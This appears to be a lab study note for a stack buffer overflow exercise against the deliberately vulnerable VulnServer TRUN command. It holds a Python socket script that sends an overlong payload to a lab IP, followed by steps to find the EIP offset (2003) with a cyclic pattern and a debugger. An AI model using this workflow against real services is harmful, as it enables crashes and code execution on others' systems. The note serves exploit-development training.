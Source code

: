 # Click file>>attach>>secureserver>> play button in top left

# Create python script ---- unless you already have it for that dll
------------------------------------------------------------------------------------------------
import socket

buf = "TRUN /.:/"
buf += "A" * 5000

s = socket.socket (socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.65.10", 9999))
print s.recv(1024)
s.send(buf)
print s.recv(1024)
s.close()
------------------------------------------------------------------------------------------------

# generate 5000 character pattern and replace ""A" * 5000" with pattern

# run python script

# find eip in debugger register window

# put that value in the offset field on the pattern website (wiremask.eu)

# get the offset and edit script accordingly 

# change "" buf += "**pattern**" "" to>> "" buf += "A" * 2003 ""

# add "" buf += "BBBB" ""

# go to debugger hit the rewind arrows then hit play

# run script
